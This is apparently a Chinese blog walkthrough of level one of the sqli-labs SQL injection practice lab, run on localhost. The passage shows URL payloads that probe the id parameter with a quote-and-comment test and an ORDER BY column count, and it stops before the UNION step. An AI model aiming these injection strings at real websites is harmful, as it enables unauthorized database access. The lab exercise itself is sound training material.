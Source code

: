 ```yaml
---
# 当前页面内容标题
title: sqli-labs 闯关
# sidebar: heading
# 当前页面图标
icon: note
# 分类
category:
    - 日常
tag:
    - 靶场
    - sql注入
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: true
# 是否将该文章添加至时间线中
timeline: true
# sidebar: heading
date: 2023-02-16
# 浏览量
pageview: true
---
```


# Sqli-labs

**地址：**：http://127.0.0.1:8080/sqli-labs

## 第一关

![image-20220921002340922](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921002340922.png)

查询注入：

首先使用`2'%23`尝试注入

```
http://127.0.0.1:8080/sqli-labs/Less-1/?id=2'%23
```

![image-20220921003141236](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921003141236.png)

回显正常，说明可能存在注入漏洞，使用order by 获取列数

```
http://127.0.0.1:8080/sqli-labs/Less-1/?id=2' order by 4%23
1-3正常显示，4报错，说明只有3列
```

使用union获取数据库名称
